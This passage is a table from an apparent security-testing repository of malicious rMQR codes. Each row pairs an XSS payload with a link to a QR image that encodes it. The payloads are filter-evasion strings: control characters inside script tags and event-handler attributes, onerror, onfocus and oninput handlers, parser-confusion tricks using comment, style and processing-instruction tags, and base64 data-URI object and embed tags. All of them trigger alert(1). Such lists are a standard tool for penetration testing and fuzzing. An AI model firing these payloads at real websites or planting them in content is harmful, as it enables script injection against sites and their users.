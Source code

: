 | `<script\x0C>javascript:alert(1)</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/282.png) |
| `<script\x00>javascript:alert(1)</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/283.png) |
| `<script\x09>javascript:alert(1)</script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/284.png) |
| ``"'><img src=xxx:x onerror\x0B=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/285.png) |
| ``"'><img src=xxx:x onerror\x00=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/286.png) |
| ``"'><img src=xxx:x onerror\x0C=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/287.png) |
| ``"'><img src=xxx:x onerror\x0D=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/288.png) |
| ``"'><img src=xxx:x onerror\x20=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/289.png) |
| ``"'><img src=xxx:x onerror\x0A=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/290.png) |
| ``"'><img src=xxx:x onerror\x09=javascript:alert(1)>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/291.png) |
| `<script>javascript:alert(1)<\x00/script>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/292.png) |
| `<img src=# onerror\x3D"javascript:alert(1)" >` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/293.png) |
| `<input onfocus=javascript:alert(1) autofocus>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/294.png) |
| `<input onblur=javascript:alert(1) autofocus><input autofocus>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/295.png) |
| `<video poster=javascript:javascript:alert(1)//` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/296.png) |
| `<video><source onerror="javascript:javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/297.png) |
| `<video onerror="javascript:javascript:alert(1)"><source>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/298.png) |
| `<form><button formaction="javascript:javascript:alert(1)">X` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/299.png) |
| `<body oninput=javascript:alert(1)><input autofocus>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/300.png) |
| `<table background="javascript:javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/302.png) |
| ``<img src=x onerror=javascript:alert(1)/`/">`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/303.png) |
| ``<comment><img src="</comment><img src=x onerror=javascript:alert(1))`//">`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/304.png) |
| ``<![><img src="]><img src=x onerror=javascript:alert(1)/`/">`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/305.png) |
| ``<style><img src="</style><img src=x onerror=javascript:alert(1)/`/">`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/306.png) |
| `<head><base href="javascript://"></head><body><a href="/. /,javascript:alert(1)//#">XXX</a></body>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/307.png) |
| `<SCRIPT FOR=document EVENT=onreadystatechange>javascript:alert(1)</SCRIPT>` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/308.png) |
| `<object data="data:text/html;base64,%(base64)s">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/309.png) |
| `<embed src="data:text/html;base64,%(base64)s">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/310.png) |
| `<b <script>alert(1)</script>0` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/311.png) |
| ``<x '="foo"><x foo='><img src=x onerror=javascript:alert(1)/`/'>`` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/312.png) |
| `<img src="javascript:alert(1)">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/314.png) |
| `<div style=width:1px;filter:glow onfilterchange=javascript:alert(1)>x` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/317.png) |
| `<? foo="><script>javascript:alert(1)</script>">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/318.png) |
| `<! foo="><script>javascript:alert(1)</script>">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/319.png) |
| `</ foo="><script>javascript:alert(1)</script>">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/320.png) |
| `<? foo="><x foo='?><script>javascript:alert(1)</script>'>">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/321.png) |
| `<! foo="[[[Inception]]"><x foo="]foo><script>javascript:alert(1)</script>">` | [link](https://github.com/edoardottt/malicious-rMQR-Codes/blob/main/payloads/xss/data/322.png) |
